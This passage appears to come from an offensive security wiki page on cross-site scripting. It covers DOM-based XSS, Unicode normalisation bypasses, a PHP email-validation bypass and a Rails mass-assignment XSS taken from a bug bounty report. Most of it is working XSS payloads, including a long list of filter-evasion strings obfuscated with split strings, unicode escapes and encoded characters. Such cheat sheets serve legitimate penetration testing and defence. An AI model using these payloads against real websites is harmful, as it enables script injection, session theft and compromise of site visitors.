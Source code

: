 ## **DOM vulnerabilities**

There is **JS code** that is using **unsafely data controlled by an attacker** like `location.href` . An attacker, could abuse this to execute arbitrary JS code.  
**Due to the extension of the explanation of** [**DOM vulnerabilities it was moved to this page**](dom-xss.md)**.**  
There you will find a detailed **explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them**.  
Also, don't forget that **at the end of the mentioned post** you can find an explanation about [**DOM Clobbering attacks**](dom-xss.md#dom-clobbering).

## Other Bypasses

### Normalised Unicode

You could check is the **reflected values** are being **unicode normalized** in the server \(or in the client side\) and abuse this functionality to bypass protections. [**Find an example here**](../unicode-normalization-vulnerability.md#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL flag Bypass

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Ruby-On-Rails bypass

Due to **RoR mass assignment** quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields \(onfocus\) can be added inside the tag.  
Form example \([from this report](https://hackerone.com/reports/709336)\), if you send the payload:

```text
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```

The pair "Key","Value" will be echoed back like this:

```text
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```

Then, the onfocus attribute will be inserted:

![](../../.gitbook/assets/image%20%2882%29.png)

A XSS occurs.

### Special combinations

```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
```